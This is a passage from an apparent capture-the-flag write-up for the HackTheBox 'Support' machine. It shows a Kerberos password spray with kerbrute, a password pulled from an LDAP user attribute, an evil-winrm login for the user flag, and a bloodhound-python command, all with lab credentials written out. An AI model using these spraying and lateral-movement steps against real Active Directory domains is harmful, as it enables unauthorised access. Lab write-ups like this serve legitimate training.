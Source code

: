 We can see that Wireshark captured the decrypted password `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`.

## LDAP Enumeration

Used kerbrute to perform a password spray attack and returned a successful login for the user `ldap`.

```bash
./kerbrute_linux_amd64 passwordspray --dc 10.10.11.174 -d support.htb /home/kali/Downloads/HackTheBox/Support/userlist 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

2024/06/08 12:34:23 >  [+] VALID LOGIN:  ldap@support.htb:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Bloodhound did not return any results of interest, performing ldap enumeration did return a password for the user `support`:

```
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
....etc.....
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
....etc.....
```

New set of credentials: `support:Ironside47pleasure40Watchful`.

Used `evil-winrm` and got the user flag.

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> dir


    Directory: C:\Users\support\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---          6/8/2024   4:13 AM             34 user.txt
```

# Root Flag - Abuse GenericAll

## Bloodhound

Ran `bloodhound-python` to enumerate AD environment:

```bash
bloodhound-python -ns 10.10.11.174 -d support.htb -dc support.htb -u support -p Ironside47pleasure40Watchful -c All
```
